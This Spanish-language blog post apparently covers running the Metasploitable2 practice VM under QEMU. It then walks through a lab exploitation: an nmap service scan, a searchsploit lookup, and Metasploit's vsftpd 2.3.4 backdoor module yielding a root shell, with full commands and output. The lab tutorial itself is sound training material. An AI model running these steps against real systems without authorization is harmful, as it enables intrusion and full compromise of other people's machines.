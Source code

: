 ```yaml
---
title: Metasploitable2 en Qemu
date: 2025-07-15 19:00:00 +0200
categories: [hacking]
tags: [metasploitable2, qemu]     
image:
    path: https://upload.wikimedia.org/wikipedia/commons/9/9f/ARP_Cache_Poisoning.jpg 
    alt: 
---
```


## Descargar 
Metasploitable2 es una de las máquinas que ofrece Rapid7 para realizar prácticas de pentesting. 
La descarga es un fichero zip que contien los ficheros para hacer que la máquina en VirtualBox.Puedes descargar la máquina desde aquí:
[https://sourceforge.net/projects/metasploitable/files/Metasploitable2/metasploitable-linux-2.0.0.zip/download](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/metasploitable-linux-2.0.0.zip/download)

Es una máquina Linux con "vulnerabilidades" en [Hacktools/#vulnerable-machines](../hacktools/#vulnerable-machines) puedes encontrar más máquinas y proyectos como este. Incluye varios proyectos web con vulnerabilidades o con versiones vulnerables para practicar todo tipo de pruebas de penetración como TWiki, phpMyAdmin, Mutillidae, DVWA, WebDAV, aparte de las propias vulnerabilidades del sistema que sostienen esas web, la máquina virtual en si misma. 


Instala qemu-utils si no lo tienes:

``` shell
sudo apt install qemu-utils
```

## Conversión a QEMU
Como no me gusta instalar 20 tipos de sistemas de virtualización en mi máquina opté por convertir la imagen VMDK a QCOW2, de otra forma necesitaría instalar VirtualBox, pero podemos sortear este "inconveniente":

``` shell
qemu-img convert -f vmdk -O qcow2 Metasploitable.vmdk metasploitable2.qcow2
```

## Configuración red puente
Crear una conexión puente para poder comunicarnos con esta máquina remplaza **vmbridge** con el nombre de su interface de red puente. Usamos la opción bridge para usar un dispostivo virtual bridge, ver => [bridged-linux](../bridges-linux)

Ahora podemos lanzar la máquina, recuerda que para salir de la ventana en QEMU tenemos esta combinación de teclas "Ctrl + Alt + G" . 

Además hay que modificar el fichro /etc/qemu/bridge.conf si queremos que nuestro Qemu acepte usar ese puente. 

``` shell
allow vmbridge
```

## Metasploitables en QEMU
Lanzamos la imagen así, podemos cambiar los parámetros de memoria pero 2048 parece que es más que suficiente.

``` shell
sudo qemu-system-i386 -hda metasploitable2.qcow2 -m 2048 -net bridge,br=vmbridge
```
Ahora comprueba que tengas conectividad, con la VM, puedes comprobarlo haciendo ping u otra herramienta. 
Por ejemplo el navegador

Primer contacto web:
``` html

                _                  _       _ _        _     _      ____  
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          


Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started


    TWiki
    phpMyAdmin
    Mutillidae
    DVWA
    WebDAV
```
## Fase de reconocimiento
Escaneo Nmap:

``` shell
root@office:/home/pablo# nmap -p- -sV 192.168.2.225 -vv
....
PORT      STATE SERVICE     REASON         VERSION
21/tcp    open  ftp         syn-ack ttl 64 vsftpd 2.3.4
22/tcp    open  ssh         syn-ack ttl 64 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp    open  telnet      syn-ack ttl 64 Linux telnetd
25/tcp    open  smtp        syn-ack ttl 64 Postfix smtpd
53/tcp    open  domain      syn-ack ttl 64 ISC BIND 9.4.2
80/tcp    open  http        syn-ack ttl 64 Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp   open  rpcbind     syn-ack ttl 64 2 (RPC #100000)
139/tcp   open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp   open  exec        syn-ack ttl 64 netkit-rsh rexecd
513/tcp   open  login?      syn-ack ttl 64
514/tcp   open  shell       syn-ack ttl 64 Netkit rshd
1099/tcp  open  java-rmi    syn-ack ttl 64 GNU Classpath grmiregistry
1524/tcp  open  bindshell   syn-ack ttl 64 Metasploitable root shell
2049/tcp  open  nfs         syn-ack ttl 64 2-4 (RPC #100003)
2121/tcp  open  ftp         syn-ack ttl 64 ProFTPD 1.3.1
3306/tcp  open  mysql       syn-ack ttl 64 MySQL 5.0.51a-3ubuntu5
3632/tcp  open  distccd     syn-ack ttl 64 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp  open  postgresql  syn-ack ttl 64 PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp  open  vnc         syn-ack ttl 64 VNC (protocol 3.3)
6000/tcp  open  X11         syn-ack ttl 64 (access denied)
6667/tcp  open  irc         syn-ack ttl 64 UnrealIRCd
6697/tcp  open  irc         syn-ack ttl 64 UnrealIRCd
8009/tcp  open  ajp13?      syn-ack ttl 64
8180/tcp  open  unknown     syn-ack ttl 64
8787/tcp  open  drb         syn-ack ttl 64 Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
41015/tcp open  java-rmi    syn-ack ttl 64 GNU Classpath grmiregistry
51073/tcp open  mountd      syn-ack ttl 64 1-3 (RPC #100005)
55206/tcp open  nlockmgr    syn-ack ttl 64 1-4 (RPC #100021)
56510/tcp open  status      syn-ack ttl 64 1 (RPC #100024)

```
Para hacer más rápido un búsqueda de posibles exploits ahora que conocemos los puertos. 

21/tcp    open  ftp         syn-ack ttl 64 vsftpd 2.3.4

## Fase de preparación
``` shell
root@office:/home/pablo# searchsploit vsftpd
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                   |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption                                                                                                                   | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)                                                                                                                   | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)                                                                                                                   | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                                                                                                                                 | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution                                                                                                                                        | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                                           | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                                                                                                                                          | multiple/remote/49719.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Ahora desde Metasploit, podemos buscar el exploit que podríamos utilizar
``` shell
msf6 > search vsft

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/us
                                       ing-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhost 192.168.2.225
rhost => 192.168.2.225
```

## Explotación
Lanzamos el exploit y tenemos root shell. 

``` shell
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 192.168.2.225:21 - The port used by the backdoor bind listener is already open
[+] 192.168.2.225:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.122.15:46433 -> 192.168.2.225:6200) at 2025-07-17 14:38:47 -0400

whoami
root

```

Hay varias formas de explotar esta máquina y Internet está lleno de manuales para explotarlas, busca la que más te apetezca o invéntate una.
